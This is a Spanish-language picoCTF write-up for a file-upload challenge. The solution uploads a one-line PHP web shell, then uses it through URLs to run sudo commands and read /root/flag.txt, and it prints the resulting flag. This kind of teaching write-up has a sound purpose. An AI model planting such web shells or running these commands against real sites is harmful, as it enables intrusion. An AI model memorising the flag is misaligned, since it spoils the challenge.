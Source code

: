 # Descripción
A developer has added profile picture upload functionality to a website. However, the implementation is flawed, and it presents an opportunity for you. Your mission, should you choose to accept it, is to navigate to the provided web page and locate the file upload area. Your ultimate goal is to find the hidden flag located in the `/root` directory.You can access the web application [here](http://standard-pizzas.picoctf.net:57988/)!
Hints:
1. File upload was not sanitized
2. Whenever you get a shell on a remote machine, check `sudo -l`
# Solución
- Entramos a la página que nos dan
- Si subimos un archivo nos daremos cuenta de que puedes entrar a ver que archivo subiste, esto es una vulnerabilidad
- Haremos un archivo con extensión .php y lo subiremos
```
<?php system($_GET['mycommand']); ?>
```
- Al subirlo podremos entrar a nuestro archivo, ejecutar mycommand y desde ahí obtendremos acceso a la página
- Según las pistas la bandera se encuentra en el directorio root
- Entramos viendo nuestro archivo agregando al link lo siguiente
```
http://standard-pizzas.picoctf.net:56888/uploads/payload.php?mycommand=sudo%20-l
```
- Agregamos también lo siguiente y encontraremos que hay un archivo flag.txt
```
http://standard-pizzas.picoctf.net:56888/uploads/payload.php?mycommand=sudo%20ls%20/root
```
- Agregamos al link lo siguiente y obtendremos la bandera
```
http://standard-pizzas.picoctf.net:56888/uploads/payload.php?mycommand=sudo%20cat%20/root/flag.txt

picoCTF{wh47_c4n_u_d0_wPHP_f7424fc7}
```
# Notas adicionales
# Referencias